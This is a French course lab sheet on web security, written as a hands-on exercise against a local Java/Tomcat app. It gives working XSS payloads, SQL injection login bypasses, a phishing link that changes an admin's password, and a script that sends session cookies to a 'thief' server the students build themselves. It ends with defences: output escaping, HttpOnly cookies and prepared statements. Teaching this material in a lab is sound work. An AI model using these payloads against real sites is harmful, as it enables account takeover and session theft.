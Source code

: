
# Sécurité des sites web

**Objectifs :**
- Comprendre les principes de base et savoir se protéger contre l'injection XSS et l'injection SQL

**Avertissement**  
TESTER LA VULNÉRABILITÉ D'UN SITE QUI N'EST PAS LE VÔTRE EST ILLEGAL  
NE RÉALISEZ CES EXERCICES QUE SUR VOS PROPRES SITES

## Préambule
Afin de pouvoir effectuer des tests de "piratage" interessants, il est nécessaire d'avoir une application qui nécessite une authentification
et une gestion de rôles, qui permet de saisir des données et d'afficher d'une manière ou d'une autre les données saisies. C'est le cas à l'issue de l'exercice précédant.

### Déploiement
1. Tomcat arrêté, récupérer et décompresser le fichier `tp309.zip`
1. Quelle commande Unix permet de savoir dans quelles pages sont réalisées les connexions ?
1. Quelle commande Unix permet de remplacer le nom de l'utilisateur par le votre ?
1. Sans éditer aucun fichier, modifiez l'ensemble des pages de manière à bien régler le driver, l'url, le login, le mot de passe nécessaires au bon fonctionnement
de ce site.
1. N'oubliez pas de créer la table et les données nécessaires (voir le `README`associé) et compiler les servlets !

## Injection XSS
L'injection XSS (HTML ou Javascript) peut se faire partout où l'utilisateur saisit des données. Cela perturbera toute page qui
affichera le contenu de cette saisie, par exemple quand l'utilisateur modifie ses coordonnées. En tant que jean, saisir par exemple dans le champs adresse tour à tour les données suivantes.

Vérifiez dans chacun de ces cas, les conséquences sur la page d’affichage des données d’un administrateur : c'est jean qui saisit, c'est paul qui subit !
1. `<h1>HACK</h1>`
1. `<font size=7 color=red>HACK</font>`
1. `<script>alert("HACK")</script>`
1. `<script>window.open("Select")</script>`
Firefox limite depuis la version 57.0 le nombre de popups. Lors de l’appel, cliquez sur le bouton preferences pour autoriser les popups.
1. `<script>location="http://www.libe.fr"</script>`
Dans ce dernier cas, vous constatez que plus aucun admin ne verra sa page d’affichage !

## Injection SQL
L’injection SQL peut se faire dans toute donnée qui sera manipulée par une instruction SQL, ce qui est le cas de tout formulaire d’authentification.
1. Saisir dans les deux champs login et mdp `’ OR ’1’=’1`
Vous constatez que l’on se connecte au site avec le login du 1er utilisateur de la base, qui est en général l’administrateur !!
1. Saisir dans le champs login `’ union select ’x’,’x’,’x’,’x’,’admin’,’x’ --` (des x pour chaque colonne qui n’est pas un rôle, le reste en commentaire)
Vous constatez que l’on “force” la connexion à un role spécifique (ici admin !!).
1. Saisir dans le champs login un login correct, mais sous la forme `unbonlogin' or '1'='1` , puis n'importe quoi dans le champs mot de passe.  
Vous constatez que l'on se connecte sans le mot de passe en tant que l'utilisateur choisi.
1. Créez une table `bidon(libelle text)` avec quelques lignes dedans. Trouvez l'injection à effectuer au login pour effacer
complètement cette table par injection SQL
1. Vous êtes un nouvel utilisateur. Comment faire pour être directement inscrit à la création avec un compte admin inscrit
physiquement dans la base ?
1. Vous avez un compte sur ce site en tant que simple utilisateur. Comment modifier votre rôle pour passer de util à admin
dans la base.

## Social engineering
L'ingénierie sociale est une forme d'escroquerie utilisée en informatique pour obtenir d'autrui des informations clefs. Cette
pratique exploite les failles humaines et sociales, la crédulité des personnes possédant ce que l'on cherche à obtenir.

* L'administrateur est connecté
* Un pirate lui envoie un email en html en apparence anodin. Pour tester, envoyez vous un email contenant le texte :  
  ```html
  Peux tu jeter un oeil sur ma page perso
  <p>
  <a href=http://localhost:8080/tp37/servlet-Maj2?login=paul&mdp=toto&nom=&prenom=&adresse=>
  http://127.12.56.33/mapageperso.html</a>
  <p>
  Merci
  ```
* En tant qu'administateur paul, vous ne vous méfiez pas, et en recevant le mail, vous cliquez naïvement dessus.
* Ce faisant, paul vient de changer son mot de passe en toto, mot de passe que vous lui avez indiqué dans la partie cachée du lien.
* Le pirate peut maintenant se logger en paul/toto

## Le vol de sessions
Toutes les protections précédentes permettent d'éviter les attaques par injection les plus classiques, mais n'évitent pas pour autant
le vol de session.
Dans cet exercice nous allons voir comment se logguer sur un site en utilisant la session d'un autre utilisateur, sans saisir aucun
login ni mot de passe !
1. Nous utiliserons Chrome pour l'administrateur (ici paul/paul) et Firefox/Iceweasel pour le "voleur" (ici jean/jean)
qui est simple utilisateur. Lancez les deux et recadrez ces fenetres pour qu'elles soient côte à côte : Chromium à gauche,
Firefox à droite.
1. Les navigateurs récents possèdent tous une "console web". Cet outil permet d'éditer, débugguer, tester CSS, HTML, et JavaScript en direct sur n'importe quelle page. Sur Firefox allez dans "Outils/Developpement web" puis "console web" onglet "storage"
1. Tout est maintenant prêt pour la démonstration
1. Un voleur (navigateur de droite), jean, non administrateur, injecte dans ses coordonnées (via "modifier vos infos") le code  
    ```javascript
    <script>alert(document.cookie)</script>
    ```
1. Paul (navigateur de gauche), administrateur, se connecte légalement avec son login/mdp sur le navigateur de gauche ... mais
il laisse sa session ouverte en allant boire un café :-(
1. Jean, le voleur en profite pour utiliser son navigateur et afficher la liste des coordonnées. L'affichage de cette page lui donne le `JSESSIONID`. Faites un copier du numéro.
1. Jean, le voleur retourne sur son navigateur Firefox qu'il lance sur la page de Menu
1. Avec `Firebug` (Affichage - Firebug), il va dans l'onglet cookie et modifie l'identfiant de session en mettant celui volé 1
1. Après un reload de cette page, il est maintenant connecté comme administrateur !
1. Les cookies sont accessibles coté client via les langages de Script comme Javascript. Certains navigateurs refusent cet accès pour les cookies avec la marque `HttpOnly`. Pour se protéger il faut donc toujours paramétrer son serveur avec des `HttpOnly` cookies.


## Industrialiser les vols de sessions
Certains pirates injectent dans les pages WEB des forums des liens permettant de voler vos cookies et les ranger dans leurs bases
de données
1. Ecrire dans vide (pas dans `tp309` pour symboliser un autre serveur; celui du voleur) une servlet `Voler.java` qui récupere
un parametre `p` et le range dans une table `numsessions(p text)`.
1. Injecter dans le site (page "Modifiez vos infos") le code suivant dans le champs adresse 2 :  
    ```html
    <a href="#" onclick="window.location=''http://mamachine:8080/vide/servlet-Voler?p=''+
    escape(document.cookie)">Cliquer ici!</a>
    ```
1. Demandez maintenant à vos voisins d'afficher cette page et de cliquer sur le lien
1. A chaque click d'un utilisateur, son numéro de session vient remplir votre table de sessions volées. Il ne vous reste plus qu'à laisser ce piège toute la nuit, demain matin, votre BDD sera pleine de cookies tous frais ;-)

## Mise en sécurité "élémentaire" du site
1. Afin d'éviter l'injection XSS une technique basique et inefficace consiste à faire des replaceAll sur les chaines de caractères pour supprimer les caractères spéciaux `<>'()`. Testez cette approche sur le paramètre adresse.
1. Testez la saisie de Villeneuve d'Ascq dans l'adresse
1. La classe `StringEscapeUtils` des API `Commons-text` et `Commons-lang` de chez [Apache](http://commons.Apache.org) est bien plus efficace puisqu'elle "encode" les caractères spéciaux ainsi que ceux supérieurs au code ascii 127.
  * Ecrire un programme Java simple qui saisit une chaine et affiche sa transformation avec la méthode `translate` de
la classe `StringEscapeUtils`  
    ```java
    CharSequenceTranslator cst = StringEscapeUtils.ESCAPE_HTML4;  
    String translated=cst.translate(input);
    ```
  * Testez avec différentes chaines contenant des caractères spéciaux(genre `<h1>hello</h1>`)
  * Modifiez votre site en conséquence.
  * Testez la saisie de Villeneuve d'Ascq dans l'adresse
1. Afin d'évitez l'injection SQL, remplacez les Statement utilisés à partir de données saisies par des `PreparedStatement` avec setters
1. Restestez toutes les injections vues lors des précédents exercices et testez que toute forme de piratage est désormais impossible.

